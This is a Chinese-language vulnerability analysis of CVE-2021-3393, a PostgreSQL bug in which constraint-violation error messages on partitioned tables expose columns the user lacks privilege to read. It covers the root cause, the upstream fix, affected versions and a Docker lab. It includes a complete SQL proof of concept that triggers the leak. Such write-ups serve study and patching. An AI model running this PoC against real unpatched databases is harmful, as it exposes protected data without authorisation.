


# CVE-2021-3393 CWE-209 PostgreSQL 信息泄露

## 漏洞背景

- **PostgreSQL**：PostgreSQL 是一个开源、功能强大的对象关系型数据库管理系统，广泛应用于 Web 开发、数据分析和企业级应用。它支持 ACID 事务、复杂查询、全文搜索和多版本并发控制（MVCC），确保高并发和数据一致性。PostgreSQL 提供了扩展性，允许用户自定义数据类型、函数和索引，还支持 JSON 和地理空间数据。
- **子分区（sub-partition）：**在 分区表（partitioned table） 结构中，某个分区（partition）再次进行分区所得到的下一级分区表。子分区是分区的“嵌套层次”，用于对数据进行更细粒度的划分。通过子分区，PostgreSQL 可以支持多层次的数据组织与查询优化，但也因此在列顺序、元组布局、权限映射等执行路径上变得更复杂。
- **RTE（RangeTblEntry）：** PostgreSQL 查询树中的一种节点结构，用来描述 FROM 子句中的一个数据源，比如表、子查询、函数返回集合、值列表等。每个 RTE 记录了该数据源的 OID、别名、列集合及权限信息，并在执行阶段为规划器和执行器提供定位表、判断可见列、检查访问权限等基础信息，可以理解为“查询范围表”的元数据条目。
- **CWE-209（Generation of Error Message Containing Sensitive Information）：**程序在生成错误消息时，包含了敏感信息（如数据库结构、账号信息、内部路径或数据内容），攻击者可能借助这些信息推测系统内部实现或直接获取机密数据。

## 漏洞原理

执行器在构造错误信息时，使用的“被修改列集合”（来自子分区 RTE 的列号）与实际展示的 tuple（已转换为父表布局）的列号空间不一致，导致列位图和元组描述错位，从而把用户无 `SELECT` 权限的列值（如 `secret1/secret2`）错误地识别为“用户提供的列”并输出到错误详情里，造成信息泄露。

## 漏洞定位

分析 PostgreSQL 12.2 源码：

在 src/backend/executor/execMain.c 文件中，存在多个函数中`modifiedCols`的取值只是把`insertedCols` 和 `updatedCols`两个集合直接取自 **子分区 RTE**。

如第 **1897** 行的`ExecConstraints`函数用于在执行 INSERT 或 UPDATE 时检查目标表上的约束条件。在其中的第 1953 行`modifiedCols`在计算 `modifiedCols` 时，直接把 `insertedCols`、`updatedCols` 从子分区的 RTE拿来做并集。

如果错误信息要展示的 `slot/tupdesc` 已经被**转换成父表布局**，父表的列号（`attnum`）去查子分区位图，就会**错位命中**，把本不该显示的 `secret*` 列当成“用户提供的列”，从而打印出无权限的值。

```c
// execMain.c 文件 第 1897 行
void ExecConstraints(ResultRelInfo *resultRelInfo, TupleTableSlot *slot, EState *estate)
{
    // ...
    insertedCols = GetInsertedColumns(resultRelInfo, estate);   // 子表视角
    updatedCols  = GetUpdatedColumns(resultRelInfo, estate);    // 子表视角
    modifiedCols = bms_union(insertedCols, updatedCols);        // 直接 union
    // ...
}
```

## 漏洞修复


升级到 PostgreSQL 13.2、12.6、11.11，或相应分支中的更高版本。
在src/backend/access/common/tupconvert.c文件中,**添加一个新的函数** `execute_attr_map_cols(AttrMap *attrMap, Bitmapset *in_cols)`： 列逐栏绘图表(`AttrMap`)将“修改的列集”的位图从子分区编号空间转换为母表格编号空间(包括系统列抵消处理),确保后续生成基于母表格的视角 `DETAIL` 不包括未排名的栏。

```c
/* Perform conversion of bitmap of columns according to the map. */
Bitmapset *execute_attr_map_cols(AttrMap *attrMap, Bitmapset *in_cols)
{
    if (in_cols == NULL)
        return NULL;
    for (out_attnum = FirstLowInvalidHeapAttributeNumber;
         out_attnum <= attrMap->maplen;
         out_attnum++)
    {
        /* ... resolve in_attnum ... */
        if (bms_is_member(in_attnum - FirstLowInvalidHeapAttributeNumber, in_cols))
            out_cols = bms_add_member(out_cols,
                       out_attnum - FirstLowInvalidHeapAttributeNumber);
    }
    return out_cols;
}
```

修改这些函数中不再由RTE直接提供的列集,而是通过 `ExecGetInsertedCols()` 和 `ExecGetUpdatedCols()`,该呼叫 `execute_attr_map_cols()` 将位图 ** 映射到母表的列号空间 **。 举例来说， `ExecConstraints` 函数

```c
/* Recommended Writing After Repair (Illustration, Naming Slightly Different Due to Branch) */

/* Method A: Explicit union */
Bitmapset *insertedCols = ExecGetInsertedCols(resultRelInfo, estate); // Father's perspective
Bitmapset *updatedCols  = ExecGetUpdatedCols(resultRelInfo, estate);  // Father's perspective
Bitmapset *modifiedCols = bms_union(insertedCols, updatedCols);

/* Method B: If you already have a unified entry for "Generate columns" */
Bitmapset *modifiedCols = ExecGetAllUpdatedCols(resultRelInfo, estate);

/* Then modifiedCols is passed to the error description/permission path */
char *detail = ExecBuildSlotValueDescription(RelationGetRelid(rel),
                                             slot, tupdesc,
                                             modifiedCols, maxfieldlen);
```

## 影响范围


** 受影响的版本:** PostgreSQL：

-  11.0 改为 11.10
-  12.0 改为 12.5
-  13.0 改为 13.1

## 环境搭建

启动 Docker 环境，PostgreSQL 版本为 12.2，管理员为 postgres，密码为 postgres，已存在数据库 test。

```txt
NIST:NVD     Base Score:4.3 MEDIUM    Vector: CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:H
```

```txt
cpe:2.3:a:postgresql:postgresql:12.2:*:*:*:*:*:*:*
```



## 漏洞复现

使用 postgres 用户身份连接容器中的 PostgreSQL 的数据库 test 并运行 PoC 文件，结果一段时间后可以看到 错误消息把不该暴露的列及其中的信息当成“用户提供/可显示”的列打印出来。

```bash
docker exec -it postgres-12.2 psql -U postgres -d test -f CVE-2021-3393-PoC.sql
```



## PoC分析

```sql
\echo '\n==[Step 1] Create roles =='
CREATE USER regress_priv_user1;
CREATE USER regress_priv_user2;

\echo '\n==[Step 2] Create partitioned table with different column orders:(a, b, c, secret1, secret2) =='
SET SESSION AUTHORIZATION regress_priv_user1;

-- 定义一个分区表 errtst，按列 a 的值做 LIST 分区
CREATE TABLE errtst(
    a text,
    b text NOT NULL,
    c text,
    secret1 text,
    secret2 text
) PARTITION BY LIST (a);

-- Child partitions with shuffled column order
CREATE TABLE errtst_part_1(
    secret2 text,
    c text,
    a text,
    b text NOT NULL,
    secret1 text
);
CREATE TABLE errtst_part_2(
    secret1 text,
    secret2 text,
    a text,
    c text,
    b text NOT NULL
);

ALTER TABLE errtst ATTACH PARTITION errtst_part_1 FOR VALUES IN ('aaa');
ALTER TABLE errtst ATTACH PARTITION errtst_part_2 FOR VALUES IN ('aaaa');

\echo '\n==[Step 3] Grant limited column privileges to low-priv user =='
GRANT SELECT (a, b, c) ON TABLE errtst TO regress_priv_user2;
GRANT UPDATE (a, b, c) ON TABLE errtst TO regress_priv_user2;
GRANT INSERT (a, b, c) ON TABLE errtst TO regress_priv_user2;

\echo '\n==[Step 4] Insert one row with secret values (as high-priv user):(a, b, c, secret1-info, secret2-info) =='
-- 显式写列名列表，PostgreSQL 会按列名匹配把值塞进对应列里，跟物理“列顺序”无关
INSERT INTO errtst_part_1 (a, b, c, secret1, secret2)
VALUES ('aaa', 'bbb', 'ccc', 'secret1-info', 'secret2-info');

\echo '\n==[Step 5] Switch to low-priv user and trigger NOT NULL errors =='
SET SESSION AUTHORIZATION regress_priv_user2;

\echo '\n-- Case A: Update inside same partition (expected: secret1 leaked on vulnerable versions)'
UPDATE errtst SET a = 'aaa', b = NULL;

\echo '\n-- Case B: Update moves row to another partition (expected: secret2 leaked on vulnerable versions)'
UPDATE errtst SET a = 'aaaa', b = NULL;
```

PoC 构造一个 按 LIST 分区 的表 `errtst(a,b,c,secret1,secret2)`，并创建两个子分区，且刻意打乱子分区的物理列顺序（与父表不同）。切换到低权用户后，分别执行两条 **会触发 `b NOT NULL` 约束错误** 的 UPDATE。

**Case A**：不跨分区（`a` 仍为 `'aaa'`）。实际被修改的列：`a`、`b`。在 **part_1（子表）** 的列号：`a=3`、`b=4` → `modifiedCols = {3,4}`。但后续按**父表**解读 `{3,4}` → 对应父表的 `c(3)`、`secret1(4)`。

**Case B**：跨分区（把 `a` 改为 `'aaaa'`，行被路由到另一个子分区）。实际被修改的列：`a`、`b`。在 **part_2（子表）** 的列号：`a=3`、`b=5` → `modifiedCols = {3,5}`。但后续按**父表**解读 `{3,5}` → 对应父表的 `c(3)`、`secret2(5)`。

在构造错误信息时，PostgreSQL 会依据“**被修改列的位图**”决定打印哪些列的值。当父表与子分区 **物理列顺序不同**，且发生 **更新（尤其涉及分区键）/跨分区路由** 时，这个位图与实际**元组布局**会**错位**，把无权列（`secret1/secret2`）**误当成可展示列**输出到错误详情里。

## 参考链接


[NVD - CVE-2021-3393](https://nvd.nist.gov/vuln/detail/CVE-2021-3393)

https://github.com/postgres/postgres/commit/6214e2b2280462cbc3aa1986e350e167651b3905
